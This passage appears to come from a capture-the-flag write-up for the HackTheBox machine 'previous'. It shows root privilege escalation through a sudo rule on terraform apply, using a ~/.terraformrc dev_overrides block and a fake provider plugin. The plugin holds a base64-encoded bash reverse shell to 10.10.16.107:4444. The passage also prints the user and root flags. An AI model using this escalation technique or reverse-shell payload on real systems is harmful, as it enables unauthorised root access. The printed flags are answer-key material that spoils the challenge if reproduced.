User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply
```

```bash
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```

Now, we modify the file `~/.terraformrc` and override it with 
```py
provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/tmp/fake-plugins"
        }
        direct {}
}
```

> Another available path is to change the CLI config path, using this environment variable:
`TF_CLI_CONFIG_FILE`. 
However, because we can override the file `~/.terraformrc` itself, we'll go in that way.


Then, we create the folder `/tmp/fake-plugins` and insert our fake plugin into this folder, we use the payload from `penelope`:
```bash
mkdir -p /tmp/fake-plugins
echo -e '#!/bin/bash\nprintf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA3LzQ0NDQgMD4mMSkgJg==|base64 -d|bash' > /tmp/fake-plugins/terraform-provider-examples
chmod +x /tmp/fake-plugins/terraform-provider-examples
```

And now, just execute and get the shell:
```bash
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```




```bash
root@previous:/opt/examples# cat /root/root.txt
5612709ef81d95ad5bc9fd41e5ef872a
```




**User Flag:*****`f24a19457fe9e859a779b00f14455707`***

**Root Flag:*****`5612709ef81d95ad5bc9fd41e5ef872a`***
